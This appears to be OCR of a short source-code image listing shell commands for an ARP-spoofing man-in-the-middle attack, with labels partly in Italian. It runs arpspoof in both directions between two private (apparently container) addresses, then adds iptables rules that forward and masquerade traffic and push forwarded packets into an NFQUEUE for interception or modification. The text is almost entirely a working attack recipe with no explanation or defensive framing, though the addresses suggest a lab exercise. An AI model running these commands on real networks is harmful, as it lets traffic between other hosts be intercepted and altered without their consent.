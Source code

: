 INIT di arpspoof:
arpspoof -i eth0 -t 172.17.0.3 172.17.0.2 & arpspoof -i eth0 -t 172.17.0.2 172.17.0.3 &

MITM:
iptables -A FORWARD -i eth0 -j ACCEPT
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

iptables -D FORWARD -i eth0 -j ACCEPT
iptables -A FORWARD -j NFQUEUE --queue-num 0

